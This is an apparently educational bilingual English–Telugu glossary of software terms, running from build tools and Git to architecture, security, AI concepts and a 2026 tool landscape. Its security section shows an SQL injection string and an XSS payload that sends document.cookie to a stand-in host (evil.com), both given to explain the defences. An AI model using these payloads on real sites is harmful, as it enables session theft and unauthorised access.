Both are reusable code someone else wrote. The difference is control: with a **library**, *you* call *it* (your code stays in charge); with a **framework**, *it* calls *you* — you fill in the blanks inside its structure ("inversion of control"). **Example:** Lodash is a library — you call `_.uniq(arr)` when you feel like it. React and Express are frameworks — React decides *when* your component re-renders; you just define what it looks like.

<p class="te"><strong>Telugu:</strong> Rendu evaro raasina code — teda <strong>control</strong>: library ni NUVVU pilustav (Lodash); framework NINNU pilustundi (React eppudu re-render avvalo adi decide chestundi).</p>

### SDK (Software Development Kit)

An SDK is a bundle a platform ships so you can build for it: libraries, tools, docs, and sample code — an API plus everything needed to use it comfortably. **Example:** the AWS SDK for JavaScript lets your Node app call S3 with `s3.upload(...)` instead of hand-writing signed HTTP requests; the Android SDK is how anyone builds an Android app.

<p class="te"><strong>Telugu:</strong> SDK ante oka platform kosam kattadaniki icche <strong>full kit</strong> — libraries + tools + docs. AWS SDK tho <code>s3.upload(...)</code> — signed requests chetitho raayakkarledu.</p>

### Package Manager

A package manager downloads, installs, and updates the third-party code your project depends on, along with each piece's own dependencies — solving by automation what used to be an afternoon of copying files. **Example:** `npm install express` fetches Express and the ~60 packages *it* needs into `node_modules`, recording versions in `package.json`. npm (Node), pip (Python), and Maven (Java) are the big ones.

<p class="te"><strong>Telugu:</strong> Package manager ante third-party code ni download/install/update chese tool — <code>npm install express</code> ante Express + daani ~60 dependencies anni vachestayi, versions <code>package.json</code> lo record.</p>

### Dependency

A dependency is any external package your project needs to run. Modern apps are mostly other people's code with your logic on top — powerful, but each dependency is also a risk you inherit (bugs, abandonment, security holes). **Example:** your React app depends on `react`; that "left-pad incident" of 2016 — where one 11-line package being deleted broke half the internet's builds — is the cautionary tale of dependency chains.

<p class="te"><strong>Telugu:</strong> Dependency ante nee project ki kaavalsina bayata package. Modern apps ekkuvaga <strong>vere valla code + nee logic</strong>. Prathi dependency oka risk kuda — left-pad katha gurthupettuko.</p>

### Environments (dev · staging · production)

Teams run the same app in several copies: **development** (your laptop, fake data, break freely), **staging** (a private replica for final testing), and **production** ("prod" — the live system real users touch). The golden rules: never test in prod, and keep staging as prod-like as possible. **Example:** the feature works on your laptop (dev), passes QA on staging, and only then deploys to production — the phrase "it broke in prod" is why the other two exist.

<p class="te"><strong>Telugu:</strong> Okate app mudu copies: <strong>dev</strong> (nee laptop, break cheyyachu), <strong>staging</strong> (final-test replica), <strong>production</strong> (nijam users). Golden rule: prod lo test cheyyaku.</p>

### Environment Variable

An environment variable is a named value the OS hands your program at startup — the standard way to give the *same code* different settings (and secrets) per environment, instead of hard-coding them. **Example:** `DATABASE_URL` points at a local MySQL in dev and the real RDS instance in prod; your code just reads `process.env.DATABASE_URL`. Secrets live here (via `.env` files) precisely so they never enter Git.

<p class="te"><strong>Telugu:</strong> Environment variable ante OS run appudu icche setting — <strong>same code, veru environments lo veru values</strong>. <code>DATABASE_URL</code> dev lo local, prod lo real. Secrets ikkade untayi — Git lo kaadu.</p>

### Build & Bundler

The build is the transformation from source code to the optimised artifact that actually ships: transpiling modern JS for old browsers, bundling hundreds of files into a few, minifying, and stamping versions. A bundler (Vite, Webpack) is the tool that does it. **Example:** `npm run build` turns your 200-file React project into three compact files in `dist/`; that folder — not your source — is what the CDN serves.

<p class="te"><strong>Telugu:</strong> Build ante source ni ship chese optimized files ga maarchadam — transpile, bundle, minify. <code>npm run build</code> → 200 files nunchi <code>dist/</code> lo 3 files; CDN serve chesedi ave.</p>

### Debugging

Debugging is the disciplined hunt for why code misbehaves: reproduce the bug, isolate where behaviour diverges from expectation, fix the cause (not the symptom), and re-test. The professional tools are breakpoints and a debugger — pausing a live program to inspect it — not just `console.log`. **Example:** in Chrome DevTools → Sources, you set a breakpoint inside your click handler, watch the variables at that instant, and step line by line to see exactly where the state goes wrong.

<p class="te"><strong>Telugu:</strong> Debugging ante bug ni krama paddhathi lo vetakadam: reproduce → isolate → <strong>cause</strong> fix (symptom kaadu) → re-test. Professional tool = debugger breakpoints, <code>console.log</code> matrame kaadu.</p>

### Logging

Logging is your program writing a diary of what it did — requests handled, decisions made, errors hit — so that when something breaks at 3 a.m., you can reconstruct events without being there. Logs have levels (`debug`, `info`, `warn`, `error`) and, in production, are collected into searchable systems. **Example:** a payment fails; you search the logs for that order ID and find `ERROR: gateway timeout after 30s` with a timestamp — the bug report writes itself.

<p class="te"><strong>Telugu:</strong> Logging ante program tana <strong>diary</strong> raasukovadam — emi chesindo, e error vachindo, eppudo. Ratri 3 ki edaina break aithe logs chusi em jarigindo reconstruct chestav.</p>

### Testing (unit · integration · E2E)

Automated tests are code that verifies your code, so changes can be made without fear. **Unit tests** check one function in isolation (fast, thousands of them); **integration tests** check pieces working together (API + database); **end-to-end (E2E) tests** drive the real app like a user (slow, few). The classic shape — many unit, some integration, few E2E — is the *testing pyramid*. **Example:** unit: `expect(toBinary(42)).toBe("101010")`; E2E: a script that opens the site, logs in, adds to cart, and asserts the checkout total.

<p class="te"><strong>Telugu:</strong> Tests ante nee code ni verify chese code — <strong>bhayam lekunda maarchadaniki</strong>. Unit (okka function), integration (kalisi), E2E (user laga full app). Pyramid: unit ekkuva, E2E takkuva.</p>

---

# Part E — Working Like a Developer

### Version Control

Version control records every change to a codebase over time — who changed what, when, and why — and lets many people work on the same code without overwriting each other. Git is the universal choice. It's the save-system + time-machine + collaboration layer of software work. **Example:** a bug appeared last week? `git log` shows the exact change that introduced it, and `git revert` undoes just that change without losing everything since.

<p class="te"><strong>Telugu:</strong> Version control ante prathi change record — evaru, eppudu, enduku — plus andaru okate code meeda okesari pani cheyyagalagadam. Git universal. <strong>Save-system + time-machine</strong>.</p>

### Repository (Repo)

A repository is one project's folder as tracked by Git — all its files plus the complete history of every change. "The repo" is shorthand for "the project and its history." Hosted copies live on GitHub/GitLab. **Example:** `github.com/facebook/react` is a repo: React's every file, and every one of its ~20,000 commits since 2013, browsable.

<p class="te"><strong>Telugu:</strong> Repo ante okka project folder Git tho track ayyi — files + <strong>prathi change history</strong>. GitHub lo unna copy andariki share.</p>

### Branch

A branch is a parallel line of development inside a repo — you split off from `main`, build a feature in isolation, and merge back when it works. This is how ten developers change one codebase simultaneously without stepping on each other. **Example:** `git checkout -b feature/wishlist` creates your private timeline; `main` stays stable and shippable while you experiment. Merged branches are deleted — they're workspaces, not archives.

<p class="te"><strong>Telugu:</strong> Branch ante repo lopala <strong>parallel timeline</strong> — <code>main</code> nunchi vidipoyi feature katti, work aithe malli merge. Padi mandi okate code okesari maarchagalagadaniki daari ide.</p>

### Merge & Merge Conflict

Merging combines one branch's changes into another; Git does it automatically — unless two branches changed the *same lines*, which produces a **merge conflict** Git refuses to guess about. You resolve it by editing the conflicted files, choosing what the combined truth should be. **Example:** you and a teammate both edited line 40 of `app.js`; Git marks the spot with `<<<<<<<` / `>>>>>>>`, shows both versions, and waits for a human decision. Scary the first time, routine by the tenth.

<p class="te"><strong>Telugu:</strong> Merge ante branch changes kalapadam — iddaru <strong>okate line</strong> maarchithe conflict: Git guess cheyyadu, <code>&lt;&lt;&lt;&lt;&lt;&lt;&lt;</code> marks petti nee decision ki wait chestundi. Modatisari bhayam, padosari routine.</p>

### Pull Request (PR)

A pull request is a proposal: "here's my branch — please review and merge it into main." It bundles the diff, a description, discussion threads, and automated checks into one reviewable page. PRs are where teams actually collaborate, and where your CI runs. **Example:** you push `feature/wishlist`, open a PR on GitHub, a teammate comments "rename this function," you push a fix, they approve, it merges. Open-source contribution is literally sending a PR to a stranger's repo.

<p class="te"><strong>Telugu:</strong> PR ante proposal: 'naa branch review chesi <code>main</code> lo merge cheyyandi' — diff + discussion + automated checks okka page lo. Open-source contribution ante evari repo ki aina PR pampadame.</p>

### Code Review

Code review is a teammate reading your PR before it merges — catching bugs, spotting simpler approaches, and spreading knowledge of the codebase. It's not judgment; it's the practice that keeps a shared codebase coherent and juniors growing. **Example:** a review comment like "this loop is O(n²) — a Set makes it O(n)" (Phase 3 paying off) improves the code *and* teaches. Reviewing others' PRs is how you learn a new codebase fastest.

<p class="te"><strong>Telugu:</strong> Code review ante merge ki mundu teammate nee code chadavadam — bugs pattadam, better daari cheppadam, knowledge panchukovadam. Judgment kaadu, <strong>practice</strong>.</p>

### CI/CD

**Continuous Integration**: every push automatically triggers a pipeline that builds the code and runs all tests — broken code is caught in minutes, not at release time. **Continuous Delivery/Deployment**: if the pipeline passes, the change ships to production automatically. Together they turn releases from quarterly events into non-events that happen daily. **Example:** GitHub Actions runs your test suite on every PR (red ✗ blocks merging); on merge to `main`, it deploys to your server — no human touches a production box.

<p class="te"><strong>Telugu:</strong> <strong>CI</strong>: prathi push ki automatic build + tests — break nimishallo telustundi. <strong>CD</strong>: pass aithe automatic ga production ki. Releases pedda events nunchi roju jarige non-events avutayi.</p>

### DevOps

DevOps is the culture and toolset that merges *writing* software (Dev) with *running* it (Ops): the same team builds the feature, automates its deployment, monitors it in production, and gets paged when it breaks. Infrastructure becomes code too. **Example:** a DevOps-flavoured job posting lists Docker, CI pipelines, AWS, and monitoring — exactly the Phase 10 toolkit. "You build it, you run it" is the slogan.

<p class="te"><strong>Telugu:</strong> DevOps ante raase team ye <strong>run kuda</strong> chestundi — feature katti, deploy automate chesi, monitor chesi, break aithe adhe team bagucheyyadam. 'You build it, you run it'. Phase 10 toolkit ide.</p>

### Agile · Sprint · Stand-up

Agile is the working style of most software teams: ship small increments, gather feedback, adjust — instead of planning a year upfront (that older style is called *waterfall*). A **sprint** is one cycle (usually 2 weeks) with a committed goal; a **stand-up** is the daily 10-minute sync: what I did, what I'll do, what's blocking me. **Example:** in interviews, "tell me about your workflow" wants these words used naturally: "we worked in two-week sprints, daily stand-ups, tasks tracked in Jira."

<p class="te"><strong>Telugu:</strong> Agile ante chinna increments ga ship chesi feedback tho adjust avvadam. <strong>Sprint</strong> = 2 varala cycle; <strong>stand-up</strong> = daily 10-min sync: ninna emi, ivvala emi, block emi.</p>

### MVP (Minimum Viable Product)

An MVP is the smallest version of a product that delivers real value — built to test the idea with real users before investing months in polish. The discipline is cutting every feature that isn't essential to the core loop. **Example:** Airbnb's MVP was one apartment with photos and a payment link, not a global platform. Your FocusTrack capstone should launch as an MVP: track focus sessions, show a chart — nothing else — then iterate.

<p class="te"><strong>Telugu:</strong> MVP ante nijamaina value icche <strong>atyanta chinna version</strong> — polish ki mundu idea ni real users tho test cheyyadaniki. Airbnb MVP: okka apartment photo + payment link. FocusTrack ni MVP ga launch cheyyi.</p>

### Technical Debt & Refactoring

Technical debt is the future cost of shortcuts taken today — quick hacks that make the next change slower, accumulating "interest" until development crawls. **Refactoring** is paying it down: improving code's internal structure *without changing its behaviour* — safe only when tests exist to prove nothing broke. **Example:** copy-pasting the same validation into five files ships today's feature fast (debt); next month, extracting it into one shared function all five call is the refactor.

<p class="te"><strong>Telugu:</strong> Tech debt ante ivvala teesukunna shortcut <strong>repati kharchu</strong> — vaddi perigipotundi. Refactoring ante behaviour maarchakunda structure baagucheyyadam — tests unte ne adi safe.</p>

---

# Part F — Architecture & Scale

### Monolith vs Microservices

A **monolith** is one application containing everything — one codebase, one deploy, one process. **Microservices** split the system into small independent services (auth, orders, payments), each with its own code, database, and deployment, talking over APIs. Monoliths are simpler and faster to build; microservices let 50 teams scale and deploy independently — at the price of enormous operational complexity. **Example:** your capstone is (correctly) a monolith; Amazon runs thousands of microservices. The honest rule: start monolith, split only when team size forces it.

<p class="te"><strong>Telugu:</strong> <strong>Monolith</strong> = antha okate app, okate deploy — simple, start ki correct. <strong>Microservices</strong> = auth/orders/payments veru veru services — 50 teams ki scale, kaani operations chala kastam. Rule: monolith tho modalupettu.</p>

### Scaling — Vertical vs Horizontal

**Vertical scaling** ("scale up"): buy a bigger machine — simple, but hits a ceiling and one crash kills everything. **Horizontal scaling** ("scale out"): add more machines behind a load balancer — no ceiling, survives failures, but demands stateless design so any server can handle any request. **Example:** upgrading EC2 from 8GB to 32GB RAM is vertical; running 6 copies of your API behind a balancer is horizontal — and is why JWTs (stateless auth) beat in-memory sessions at scale.

<p class="te"><strong>Telugu:</strong> <strong>Vertical</strong> = pedda machine konu (ceiling undi). <strong>Horizontal</strong> = load balancer venaka inka machines veyyi (ceiling ledu, failures survive) — kaani stateless design kaavali, anduke JWT.</p>

### Latency vs Throughput

**Latency** is how long *one* operation takes (milliseconds); **throughput** is how many operations complete *per second*. They're independent — a system can be high-throughput and high-latency (a batch pipeline) or low-latency and low-throughput. Users feel latency; capacity planning feels throughput. **Example:** a video call needs low latency (each packet must arrive fast); a nightly report job needs throughput (process 10M rows, nobody's watching). Interview phrasing: "we cut p95 latency from 800ms to 120ms."

<p class="te"><strong>Telugu:</strong> <strong>Latency</strong> = okka operation ki time (ms); <strong>throughput</strong> = second ki enni operations. Video call ki latency, nightly batch ki throughput. Users feel ayyedi latency.</p>

### Availability & the Nines

Availability is the fraction of time a system is up and answering, quoted in "nines": 99.9% ("three nines") allows ~8.7 hours of downtime a year; 99.999% allows ~5 minutes. Each extra nine costs roughly 10× the engineering effort. **Example:** cloud providers publish SLAs (service-level agreements) like "99.99% for S3"; when a payment gateway is down for an hour, that year's fourth nine is already gone.

<p class="te"><strong>Telugu:</strong> Availability ante system entha time up undo — '<strong>nines</strong>' lo: 99.9% = samvatsaraniki ~8.7 gantalu down; prathi extra nine ~10 rettu engineering effort.</p>

### Redundancy & Fault Tolerance

Redundancy is having spares — extra servers, database replicas, second data centres — so no single failure is fatal ("no single point of failure"). Fault tolerance is the system's ability to *keep working* through failures by failing over to those spares automatically. **Example:** your database has a replica in another zone; the primary dies at 2 a.m., the replica is promoted in 30 seconds, and users never notice. RAID, load-balanced servers, and multi-region deployments are all redundancy.

<p class="te"><strong>Telugu:</strong> Redundancy ante <strong>spares</strong> — extra servers, DB replicas, second data centre; 'no single point of failure'. Fault tolerance ante failure appudu automatic ga spare ki maari aagakunda continue avvadam.</p>

### Serverless

Serverless means you deploy individual *functions*, not servers — the cloud runs your code only when triggered, scales it automatically from zero to thousands, and bills per invocation. (Servers still exist; you just never manage them.) Best for spiky or occasional workloads; awkward for long-running or stateful ones. **Example:** an AWS Lambda that resizes images whenever one lands in S3 — it costs nothing at night, and handles a viral spike without you touching anything.

<p class="te"><strong>Telugu:</strong> Serverless ante servers kaadu, <strong>functions</strong> deploy chestav — trigger ayinappude run, automatic scale, invocation ki bill. Ratri antha zero cost; viral spike ni kuda adi chusukuntundi.</p>

### Message Queue

A message queue sits between services: producers drop messages in, consumers process them at their own pace — decoupling "accepting work" from "doing work" and absorbing traffic spikes. (It's the Queue data structure from Phase 3, deployed as infrastructure.) **Example:** clicking "order" instantly returns success while the actual invoice-generation, email, and inventory updates flow through RabbitMQ/Kafka behind the scenes; if the email service is down for an hour, the messages simply wait.

<p class="te"><strong>Telugu:</strong> Message queue ante services madhya <strong>line</strong> — producers vestaru, consumers own pace lo teestaru. Order click ventane success; email/invoice venaka queue lo. Phase 3 Queue structure, infrastructure roopam lo.</p>

### Event-Driven Architecture

In an event-driven system, services don't command each other — they announce facts ("OrderPlaced") onto an event stream, and any interested service reacts. New features subscribe to existing events without touching the original code. **Example:** when `OrderPlaced` fires, the email service sends a receipt, analytics logs it, and inventory decrements — three teams, zero coordination. SAP's Event Mesh and Kafka are the enterprise version; your n8n automations in Phase 12 are the same idea in miniature.

<p class="te"><strong>Telugu:</strong> Event-driven ante services okarini okaru order cheyyakunda '<strong>OrderPlaced</strong>' ani prakatistayi — evariki kaavalo vaallu react avutaru. Kotta feature = kotta subscriber; paatha code muttakkarledu.</p>

---

# Part G — Security

### Encryption

Encryption scrambles data with a key so only key-holders can read it — protecting data *in transit* (TLS on every HTTPS request) and *at rest* (encrypted disks and databases). It's reversible by design: the right key decrypts. **Example:** WhatsApp's end-to-end encryption means even WhatsApp's own servers see only ciphertext; your Phase 3 TLS handshake is encryption negotiated live between browser and server.

<p class="te"><strong>Telugu:</strong> Encryption ante key tho data <strong>scramble</strong> — key unnavaale chadavagalaru; design reethya reversible. Transit lo (TLS) mariyu rest lo (encrypted disks) rendinta vaadutaru.</p>

### Hashing

Hashing runs data through a one-way function producing a fixed-size fingerprint — same input, same hash, but no way back. This is how passwords are stored: the site keeps only the hash, and at login hashes what you typed and compares. Never confuse it with encryption (reversible) — and never store passwords encrypted, only hashed. **Example:** `bcrypt("hunter2")` → `$2b$10$N9qo8uLO...`; a hacker stealing the database gets fingerprints, not passwords. "Data breach — passwords were hashed" is why sites still force a reset: weak passwords can be guessed-and-hashed.

<p class="te"><strong>Telugu:</strong> Hashing ante <strong>one-way fingerprint</strong> — venakki raadu. Passwords ila dachutaru: site hash matrame unchukuni, login lo nuvvu type chesindi hash chesi compare. Encryption (reversible) tho confuse avvaku.</p>

### TLS Certificate

A certificate is a file proving "this public key belongs to this domain," digitally signed by a Certificate Authority your device already trusts — the padlock in your address bar is your browser verifying that chain. Certificates expire and must be renewed. **Example:** Let's Encrypt issues free 90-day certificates that auto-renew; "the cert expired" is the classic 2 a.m. outage where a working site suddenly shows browser warnings.

<p class="te"><strong>Telugu:</strong> Certificate ante 'ee public key ee domain di' ani CA sign chesina file — padlock ante browser aa chain verify chesindi. Expire avutayi — 'cert expired' ante classic ratri 2 outage.</p>

### Secrets & API Keys

A secret is any credential your app needs but no human should see: database passwords, JWT signing keys, API keys (the tokens that identify your app to services like OpenAI or AWS). The iron rule: secrets live in environment variables or vaults, never in code, never in Git. **Example:** a bot finds an AWS key pushed to public GitHub within *minutes* and mines crypto on your bill — real people have woken up to ₹40-lakh invoices. `.gitignore` your `.env`, always.

<p class="te"><strong>Telugu:</strong> Secrets ante DB passwords, JWT keys, API keys — code lo kaadu, <strong>Git lo aslu kaadu</strong>, env variables lo matrame. Public GitHub lo AWS key veste bots nimishallo pattukuni nee bill meeda crypto mine chestayi.</p>

### 2FA / MFA (Multi-Factor Authentication)

MFA requires a second proof of identity beyond the password — something you *have* (phone, hardware key) or *are* (fingerprint) — so a stolen password alone isn't enough. **Example:** GitHub requires 2FA for all contributors: password + a 6-digit code from an authenticator app. Enable it everywhere that matters: email first (it can reset everything else), then GitHub, AWS, banking.

<p class="te"><strong>Telugu:</strong> MFA ante password ke <strong>inkoka proof</strong> — phone code, fingerprint. Password dongilinchina saripodu. Mundu email ki pettuko (adi migathavi anni reset cheyagaladu), taruvata GitHub, AWS.</p>

### Firewall & VPN

A **firewall** filters network traffic by rules — which ports and sources are allowed in or out; everything else is dropped. A **VPN** creates an encrypted tunnel into a private network, letting you appear *inside* it from anywhere. **Example:** your EC2 server's security group (a firewall) allows only ports 443 and 22; the company database accepts connections only from the office VPN, so remote employees must tunnel in first.

<p class="te"><strong>Telugu:</strong> <strong>Firewall</strong> ante rules tho traffic filter — ee ports/sources matrame, migathavi drop. <strong>VPN</strong> ante private network loki encrypted tunnel — bayata unna kuda lopala unnattu.</p>

### SQL Injection

SQL injection is attacker input that breaks out of its slot and becomes SQL code — historically the #1 web vulnerability. It happens when you build queries by gluing strings; the cure is *parameterised queries*, where the database treats input strictly as data. **Example:** a login form receives `' OR '1'='1` — naively glued, the query becomes `WHERE password = '' OR '1'='1'` (always true → logged in as admin). The legendary xkcd student "Robert'); DROP TABLE Students;--" is this joke.

<p class="te"><strong>Telugu:</strong> SQL injection ante user input <strong>SQL code ga maaripovadam</strong> — strings glue chesthe <code>' OR '1'='1</code> tho login aipovachu. Cure: parameterised queries — input ni data ga ne treat chestayi.</p>

### XSS (Cross-Site Scripting)

XSS is injecting JavaScript into a page other users will view — the attacker's script then runs in *their* browsers with *their* cookies and session. It happens when apps insert user content into HTML without escaping (the `innerHTML` warning from Phase 3). **Example:** a comment containing `<script>fetch('evil.com?c='+document.cookie)</script>` posted on a careless forum silently steals every reader's session. React escapes output by default — one big reason frameworks improved web security.

<p class="te"><strong>Telugu:</strong> XSS ante vere users chuse page lo <strong>JS inject</strong> cheyyadam — vaari browser lo vaari cookies tho nee script run avutundi. <code>innerHTML</code> + user input = danger; React default ga escape chestundi.</p>

### DDoS (Distributed Denial of Service)

A DDoS attack floods a service with junk traffic from thousands of hijacked machines (a *botnet*) until real users can't get through — not a break-in, a stampede blocking the door. Defence is absorption and filtering at scale: CDNs and services like Cloudflare. **Example:** attacks exceeding 100 million requests/second have been absorbed by Cloudflare; for a small site, even a modest flood means downtime unless a CDN stands in front.

<p class="te"><strong>Telugu:</strong> DDoS ante velakoladi hijacked machines tho <strong>junk traffic flood</strong> — break-in kaadu, gummam mundu stampede. Defence: CDN/Cloudflare scale lo absorb chesi filter cheyyadam.</p>

---

# Part H — The AI Era

### AI · ML · LLM

**AI** is the broad goal (machines doing tasks that need intelligence); **Machine Learning** is the dominant method (learning patterns from examples instead of hand-coded rules); an **LLM** (Large Language Model) is an ML model trained on massive text to predict the next token — which turns out to produce fluent language, reasoning, and code. **Example:** spam filters are ML; ChatGPT, Claude, and Gemini are LLMs. Your Phase 1 notes cover this stack in depth — the one-line recall: *an LLM is a very powerful autocomplete steered by your prompt.*

<p class="te"><strong>Telugu:</strong> <strong>AI</strong> = pedda goal; <strong>ML</strong> = examples nunchi patterns nerchukune method; <strong>LLM</strong> = next token predict chese text model — ChatGPT, Claude. Okka line: LLM ante nee prompt steer chese super autocomplete.</p>

### Prompt & Prompt Engineering

The prompt is everything you send an LLM — instructions, context, examples, data. Prompt engineering is writing it deliberately (role, context, task, format, constraints) because the prompt is the steering wheel: same model, radically different output. **Example:** "fix my code" vs "You are a senior Node developer; find the bug in this function, explain it in two lines, return the corrected code only" — Phase 1's entire discipline in one contrast.

<p class="te"><strong>Telugu:</strong> Prompt ante LLM ki pampe antha — instructions, context, examples. Prompt engineering = daanini <strong>deliberate ga</strong> raayadam (role, context, task, format, constraints). Same model, veru prompt, veru output.</p>

### Token & Context Window

LLMs read and write in **tokens** — word-pieces of ~4 characters; you're billed per token. The **context window** is the model's working memory: the maximum tokens (prompt + conversation + response) it can consider at once — anything beyond it is invisible. **Example:** a 200K-token context fits a whole codebase file-set; paste more and the earliest parts fall out — why long chats "forget" their beginning, and why RAG (below) exists.

<p class="te"><strong>Telugu:</strong> LLM lu <strong>tokens</strong> lo chaduvutayi (~4 characters); billing kuda tokens lo. <strong>Context window</strong> = model working memory — daatithe modati bhagam kanipiyyadu; long chats 'marchipovadaniki' kaaranam ide.</p>

### AI Agent

An agent is an LLM given tools and a loop: it reasons about a goal, *calls a tool* (search, run code, edit a file), observes the result, and repeats until done — acting, not just answering. This ReAct loop turns a text-predictor into a worker. **Example:** Claude Code is an agent: told "fix the failing test," it reads files, edits code, runs the tests, sees the output, and iterates. Phase 12 (n8n + agentic capstones) is you building these.

<p class="te"><strong>Telugu:</strong> Agent ante <strong>tools + loop</strong> unna LLM — goal gurinchi alochinchi, tool call chesi, result chusi, malli — pani ayyedaka. Claude Code idi: files chadivi, code maarchi, tests run chesi iterate avutundi.</p>

### RAG (Retrieval-Augmented Generation)

RAG bolts a search step onto an LLM: before answering, the system retrieves relevant documents from *your* data and pastes them into the prompt, so the model answers from facts instead of memory — fixing hallucination and staleness without retraining. **Example:** "chat with your company's HR policies": the question fetches the three most relevant policy paragraphs, and the model answers *only* from them, citing sources. Your Capstone D and SAP's Joule both run on this pattern.

<p class="te"><strong>Telugu:</strong> RAG ante answer ki mundu <strong>nee data lo search</strong> chesi, relevant paragraphs prompt lo petti samadhanam cheppinchadam — hallucination fix, retraining lekunda. Capstone D, SAP Joule rendu idi.</p>

### Vector Database

A vector database stores *embeddings* — lists of numbers capturing a text's meaning — and finds entries by semantic similarity rather than keywords: "notice period" matches "resignation rules" because their vectors sit close together. It's the retrieval engine under RAG. **Example:** Pinecone, Chroma, and pgvector store your documents as vectors; a query is embedded too, and the nearest neighbours come back — Phase 3's "choose the right data structure" lesson, evolved for meaning-search.

<p class="te"><strong>Telugu:</strong> Vector DB ante meanings ni numbers (<strong>embeddings</strong>) ga dachi similarity tho vetikedi — 'notice period' ki 'resignation rules' match avutundi. RAG kinda unna search engine: Pinecone, Chroma, pgvector.</p>

### Fine-Tuning

Fine-tuning continues training an existing LLM on your own examples, baking a behaviour or style into the weights themselves — versus prompting (instructions per-call) and RAG (knowledge per-call). It's the heavyweight option: costly, and frozen at training time. **Example:** a support bot fine-tuned on 50,000 of your past tickets learns your tone and formats natively. Practical order: try prompting first, add RAG for knowledge, fine-tune only when both fall short.

<p class="te"><strong>Telugu:</strong> Fine-tuning ante existing LLM ni <strong>nee examples meeda inka train</strong> cheyyadam — behaviour weights lone digipotundi. Costly. Order: mundu prompting, taruvata RAG, chivaraga fine-tune.</p>

---

---

# Part I — The Builder's Toolbox: The 2026 Tool Landscape

*Every domain of software, and the tools actually used in each — the famous ones, the rising ones, and the hidden gems nobody tells beginners about. **You are not supposed to learn all of these.** This map exists so that (a) no name in a job post or tutorial ever scares you again, and (b) when you build something, you can pick one tool per row and start — the picking is 90% of the paralysis.*

*How to read the tables: the **bold** entry in each table is the safe default in 2026 — most jobs, most tutorials, most community help. Everything else is context: cheaper, faster, newer, or niche.*

<p class="te"><strong>Telugu:</strong> Ee part lo prathi domain ki industry lo nijam ga vaade tools anni okka chota unnayi — famous vi, kotthavi, evaru cheppani <strong>hidden gems</strong> kuda. Ivi anni nerchukovaddu! Ee map enduku ante: (a) job post lo e peru chusina bhayam undakudadu, (b) edaina build cheyyali ante prathi row lo <strong>okkati</strong> pick chesi start cheyyachu — tool picking lo ne 90% time waste avutundi. Prathi table lo <strong>bold</strong> unnadi 2026 lo safe default.</p>

## I1. Programming Languages

| Language | What it's for · why pick it |
| --- | --- |
| **JavaScript / TypeScript** | The web's language, frontend *and* backend (Node). TypeScript = JS + types; the industry default for anything serious. Your stack. |
| Python | AI/ML, data, scripting, backends (FastAPI). The other "learn this" language — every AI tutorial assumes it |
| Java | Enterprise backends, Android, big banks. Spring Boot runs half the corporate world |
| C# | Microsoft world: enterprise apps, Unity games, .NET backends |
| Go | Cloud infrastructure & fast APIs — Docker and Kubernetes are written in it. Small language, learn in a week |
| Rust | Systems programming without crashes — CLIs, performance-critical tools. Loved, hard, growing |
| Kotlin / Swift | The native languages of Android / iOS respectively |
| PHP | Still runs ~75% of the CMS web (WordPress, Laravel). Unfashionable, employed |
| SQL | Not optional — every developer queries databases forever |
| ABAP | SAP's language — your Part II. Niche + enterprise = well paid |

<p class="te"><strong>Telugu:</strong> Rule: <strong>JS/TS + Python + SQL</strong> — ee mudu unte 90% doors terchukuntayi. Migithavi avasaram vachinappudu: enterprise ki Java/C#, infra ki Go, SAP ki ABAP.</p>

## I2. Frontend — What Users See

| Tool | One-liner |
| --- | --- |
| HTML · CSS · JS | The non-negotiable base — frameworks come and go, these stay |
| **React** | The dominant UI library — most jobs, most tutorials, most components. Your Phase 6 |
| **Next.js** | React + routing + server rendering + API routes — "React for production." The default full-stack React framework |
| Vue / Nuxt | React's friendlier rival — loved in Asia/Europe; Nuxt = its Next.js |
| Angular | Google's all-in-one framework — enterprise dashboards, banks, SAP-adjacent shops |
| Svelte / SvelteKit | Compiles away the framework — smaller, faster, beloved; fewer jobs |
| Astro | Content sites that ship almost zero JS — blogs, docs, marketing pages |
| htmx | Hidden gem: modern interactivity with plain HTML attributes, no JS build at all — backend devs love it |
| **Tailwind CSS** | Utility-class styling — the 2026 default (your Phase 6) |
| shadcn/ui | Copy-paste React components built on Tailwind + Radix — the hottest UI kit of this era |
| Vite | The build tool — instant dev server; replaced Webpack for new projects |
| Zustand / TanStack Query | Hidden gems: tiny state manager / server-data fetching+caching — the modern Redux replacements |
| Framer Motion · GSAP · Three.js | Animation (React) · animation (anything, your GSAP repos) · 3D in the browser |

<p class="te"><strong>Telugu:</strong> Nee daari: HTML/CSS/JS → <strong>React + Tailwind</strong> (Phase 6) → taruvata Next.js. shadcn/ui + Zustand + TanStack Query — ee mudu hidden gems nee React ni 2026 level ki teestayi.</p>

## I3. Mobile Apps

| Tool | One-liner |
| --- | --- |
| **React Native + Expo** | Write React, ship iOS + Android from one codebase — your React skills transfer directly. Expo removes all the native pain |
| Flutter | Google's rival — Dart language, beautiful UIs, one codebase; huge in India |
| Swift / SwiftUI | True-native iOS — best feel, Apple-only |
| Kotlin / Jetpack Compose | True-native Android |
| Capacitor | Wrap any web app into an app-store app — the shortcut for existing sites |
| PWA | No store at all: a website that installs, works offline, sends notifications |

<p class="te"><strong>Telugu:</strong> Nee ki React vastundi kabatti mobile daadapu free: <strong>React Native + Expo</strong> tho okate codebase iOS + Android rendinta nadustundi. Flutter India lo pedda rival — kaani daaniki Dart nerchukovali.</p>

## I4. Backend — APIs & Servers

| Tool | One-liner |
| --- | --- |
| **Node.js + Express** | The classic JS backend — your Phase 7. Boring, everywhere, employable |
| Fastify / NestJS | Faster Express / structured "Angular of backends" for big teams |
| Hono | Hidden gem: tiny, ultra-fast JS framework that runs anywhere (Node, Bun, Cloudflare Workers) |
| Bun / Deno | Node rivals: Bun = drop-in + much faster; Deno = secure-by-default TypeScript |
| **FastAPI** (Python) | The modern Python API framework — auto-docs, types; the AI-industry default |
| Django / Flask | Python batteries-included classic / micro-framework |
| Spring Boot (Java) | The enterprise standard — banks, insurers, SAP-neighbourhood |
| Laravel (PHP) · Rails (Ruby) | Full-stack "everything included" frameworks — startups ship absurdly fast on them |
| Go (Gin/Echo) · .NET | High-performance APIs / Microsoft shops |

<p class="te"><strong>Telugu:</strong> Nee daari: <strong>Node + Express</strong> (Phase 7). AI side ki velthe Python <strong>FastAPI</strong> — prathi AI company lo ide. Hono ni gurthupettuko — edge deployment (Cloudflare) ki chinna hidden gem.</p>

## I5. Databases, BaaS & ORMs

| Tool | One-liner |
| --- | --- |
| **PostgreSQL** | The default database of 2026 — relational, free, does everything (even vectors via pgvector) |
| MySQL | The classic relational DB — your Phase 9; everywhere in hosting & enterprise |
